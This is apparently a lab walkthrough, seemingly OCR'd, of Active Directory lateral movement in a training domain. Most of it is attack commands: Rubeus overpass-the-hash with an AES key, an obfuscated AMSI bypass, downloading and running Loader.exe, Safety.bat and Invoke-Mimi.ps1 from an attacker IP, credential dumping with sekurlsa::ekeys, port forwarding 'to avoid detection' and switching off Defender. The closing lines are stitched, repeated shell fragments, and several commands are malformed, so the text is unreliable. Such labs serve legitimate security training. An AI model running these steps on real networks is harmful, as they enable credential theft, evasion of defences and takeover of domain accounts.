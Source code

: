 ![image](https://github.com/user-attachments/assets/2a8b0a89-a541-4bb9-8159-1b5a906c450c)

Finally, we can use the svcadmin credentials on the student VM using OverPass-the-hash 
```
C:\AD\Tools> C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%/user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
The new process starts with the privileges of svcadmin!  

```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
PS C:\Users\Administrator\.jenkins\workspace\Projectx> winrs -r:dcorp-mgmt cmd /c "set computername && set username" 
```

We would now run SafetyKatz.exe on dcorp-mgmt to extract credentials from it. 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe 
PS C:\Users\Administrator\.jenkins\workspace\Projectx> echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe 
```
Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> $null | winrs r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
C:\AD\Tools>ArgSplit.bat 
[!] Argument Limit: 180 characters 
[+] Enter a string: sekurlsa::ekeys
```
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat 
PS C:\Users\Administrator\.jenkins\workspace\Projectx> echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat 
PS C:\Users\Administrator\.jenkins\workspace\Projectx> $null | winrs r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat" 
```
Abuse using PowerShell Remoting Check if we can run commands on dcorp-mgmt using PowerShell remoting. 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> Invoke-Command ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt ciadmin dcorp-mgmt 
```
Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin "svcadmin". Host Invoke-Mimi.ps1 on your studentx machine and run the below command on the reverse shell:  
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)  
```
Now, to use Invoke-Mimi on dcorp-mgmt, we must disable AMSI there. Please note that we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt: 


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> exit
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> whoami /priv
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> hello
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 